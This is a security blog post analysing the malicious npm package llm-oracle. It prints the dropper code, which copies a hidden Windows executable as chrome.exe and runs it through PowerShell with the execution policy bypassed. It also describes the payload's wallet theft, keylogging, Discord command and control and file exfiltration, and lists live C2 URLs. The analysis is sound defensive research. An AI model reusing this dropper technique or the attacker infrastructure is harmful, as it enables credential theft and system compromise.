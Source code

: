 ```yaml
---
publishDate: 2024-11-04T00:00:00Z
title: 'Malicious Open Source Library Analysis: llm-oracle and its Payload'
image: /images/open-source-pkg-malware-analysis-llm-oracle.png
excerpt: Malware hidden in open source library packages are real. In this article, we analyse the malicious npm package llm-oracle.
tags:
  - vet
  - sbom
  - sql
  - cloud
---
```



The good folks at [socket.io](https://socket.io) published their research on
[Supply Chain Attacks Targeting LLM Application Developers: The Hidden Dangers of Fake Open Source Packages](https://socket.dev/blog/supply-chain-attacks-targeting-llm-application-developers) in which they shared their findings on discovery and analysis
of malicious npm package `llm-oracle`. This was interesting to us because
[vet](https://github.com/safedep/vet) detects a similar package, `redis-oracle`
as malicious but not `llm-oracle`. We decided to take a closer look at `llm-oracle`.

## Scanning for Malware using `vet`

[vet](https://github.com/safedep/vet) can be used to scan a package by its Package URL.

```shell
vet scan --purl pkg:/npm/redis-oracle@0.0.0
```

This results in a detection as expected

<Image src={VetRedisOracleMalwareScan} alt="vet scan result for redis-oracle" />

However, when we scan `llm-oracle`, we do not get any detection. This is not
entirely surprising because `vet` by default depends on [Package Analysis](https://github.com/ossf/package-analysis)
data for malware detection, which may not be accurate or up-to-date.

## Manual Analysis of `llm-oracle`

We decided to manually analyse `llm-oracle`. The first step was to identify
package metadata from npm registry.

```shell
npm view llm-oracle
```

This produces some useful information including author, publisher and URL
of the latest version of the package.

```shell
llm-oracle@1.0.2 | MIT | deps: 28 | versions: 3
[...]
dist
.tarball: https://registry.npmjs.org/llm-oracle/-/llm-oracle-1.0.2.tgz
[...]
dependencies:
[...]
maintainers:
- josh.weavery <josh.weavery@gmail.com>
published 3 months ago by josh.weavery <josh.weavery@gmail.com>
```

We then fetched the tarball and extracted the contents for local analysis. The
archive contained the following files:

```shell
-rw-r--r--  1 dev  wheel  16773255 Oct 26  1985 Base64Decode.ts
-rw-r--r--  1 dev  wheel       252 Oct 26  1985 HISTORY.md
-rw-r--r--  1 dev  wheel      1111 Oct 26  1985 LICENSE
-rw-r--r--  1 dev  wheel      3105 Oct 26  1985 README.md
-rw-r--r--  1 dev  wheel      2665 Oct 26  1985 index.js
-rw-r--r--  1 dev  wheel      2170 Oct 26  1985 package.json
```

The first step in any malware analysis process is to identify the file types.
The simplest way to do that is using the `file(1)` command. Surprisingly, the
first step itself gave us a strong malware indicator.

```shell
Base64Decode.ts: PE32+ executable (GUI) x86-64, for MS Windows
HISTORY.md:      ASCII text, with CRLF line terminators
LICENSE:         ASCII text, with CRLF line terminators
README.md:       ASCII text, with CRLF line terminators
index.js:        ASCII text, with CRLF line terminators
package.json:    JSON data
```

The `Base64Decode.ts` was a Windows `x86_64` executable with a `.ts` extension.
Before we jump right into the payload, we wanted to look into the dropper
`index.js` to confirm the behaviour. The `index.js` contained the following
semi-obfuscated code:

```javascript
const targetFilePath = path.join(
  process.env.LOCALAPPDATA,
  String('\u0063\u0068\u0072\u006f\u006d\u0065\u002e\u0065\u0078\u0065').replace(/\+/g, '')
);
```

```javascript
if (!fs.existsSync(targetFilePath))
{
  setTimeout(() => {
    f\u0073.copyFileSync(m\u006fd\u0065lFileP\u0061th, t\u0061rg\u0065tFileP\u0061th);
    e\u0078ec(`p\u006fwersh\u0065ll -\u0045x\u0065cut\u0069\u006fnP\u006fl\u0069cy Byp\u0061ss St\u0061rt-Pr\u006fcess -F\u0069leP\u0061th '${t\u0061rg\u0065tFileP\u0061th}' -V\u0065rb R\u0075n\u0041s`, (err\u006fr, std\u006ft, std\u0065rr) => {

    });
  }, 60000);
}
```

While advanced malware analysis techniques may differ (j/k), we used the good
old `ruby` interpreter to view the obfuscated strings

```shell
irb(main):001:0> "\u0063\u0068\u0072\u006f\u006d\u0065\u002e\u0065\u0078\u0065"
=> "chrome.exe"
```

```shell
irb(main):006:0> "f\u0073.copyFileSync(m\u006fd\u0065lFileP\u0061th, t\u0061rg\u0065tFileP\u0061th); e\u0078ec(`p\u006fwersh\u0065ll -\u0045x\u0065cut\u0069\u006fnP\u006fl
\u0069cy Byp\u0061ss St\u0061rt-Pr\u006fcess -F\u0069leP\u0061th '${t\u0061rg\u0065tFileP\u0061th}' -V\u0065rb R\u0075n\u0041s`, (err\u006fr, std\u006ft, std\u0065rr)"
=> "fs.copyFileSync(modelFilePath, targetFilePath); exec(`powershell -ExecutionPolicy Bypass Start-Process -FilePath '${targetFilePath}' -Verb RunAs`, (error, stdot, stderr)"
```

### The Payload

From `index.js`, we can identify that `Base64Decode.ts`, a Windows executable
was copied as `chrome.exe` to `%LOCALAPPDATA%` and executed using
`powershell.exe`. To understand the behaviour of the payload, we needed to get
our hands dirty with our old friend [IDA Pro](#) or its close cousin
[Ghidra](#). But unfortunately, `strings(1)` put us on a different path. We
found the following strings in the payload that indicated it was a Python
script packaged as executable using `PyInstaller`.

```shell
Cannot open PyInstaller archive from executable (%s) or external archive (%s)
Installing PYZ: Could not get sys.path!
PYINSTALLER_STRICT_UNPACK_MODE
PyInstaller: FormatMessageW failed.
PyInstaller: pyi_win32_utils_to_utf8 failed.
```

Extracting the `PyInstaller` archive from the executable gave us the following
files:

<Image src={VetLlmOracleExtractedFiles} alt="Extracted files from llm-oracle payload" />

Among these files, `OH8xADfF8q.pyc` looked interesting with strings like

```shell
'D:\work\Python-Trojan-src\OH8xADfF8q.py
```

`0H8xADfF8q.pyc` in turn decompiles to something like this

```python
import os
import discord
[...]
exec(base64.b64decode(bytes('aW1wb3J0IGJhc2U2NDtl...', 'utf-8')).decode('utf-8'))
```

The base64 encoded string contains the actual payload, which decodes to
a Python script that performs various conventional malware activities.

#### Behaviour

- Looks for crypto wallets `metamask`, `tronlink`, `trustwallet`, `coinbase`,
    `flint`, `exodus`, `binance`, `phantom`, `Xverse`, `Slope`, `Solflare`,
    `Typhon`, `nami`, `keplr`, `okx`, `bitski`, `myetherwallet`
- Look for Chrome extension data for these wallets
- Downloads configuration from `https://bayard-front-833a4.web.app/start.dat`

```json
{
  "gid": "12 __76 __201 __8416 __20 __815 __932",
  "tkn": "MT __I __3NjIwMzQ __yNjY __2NDk0 __MzY2Ng.GUg __pUL.X __Xj7OFha __7Z5r __gYZHw __tatOdp3l __i6bZ __HrDQXDCn4"
}
```

- Connects to Discord server using the Guild ID and Token
- Creates a new channel using the current username and a random string
- Starts a keylogger
- Starts taking screenshot of active window
- Sends keystroke and screenshots to the Discord channel
- Starts a full command and control over Discord

#### File Transfer

The payload checks if the file requested for transfer is greater than 25MB. If
so, it fetches configuration from `https://api.gofile.io/getServer` and uploads
to `https://{server}.gofile.io/uploadFile` using Python `requests` library.
When we tried to access the URL, we get a `404 Not Found` response, indicating
the application is geo-fenced.

## Conclusion

- `llm-oracle` is a malicious package that contains a Windows executable
- The packaging and sophistication of the malware appears to be low
- Common attacker TTP was used for payload execution using `powershell.exe`,
    `PyInstaller` and `base64` encoding
- We expect AVs and EDRs to detect this payload using behavioural analysis
- Discord was used as C2 server for exfiltration and command and control
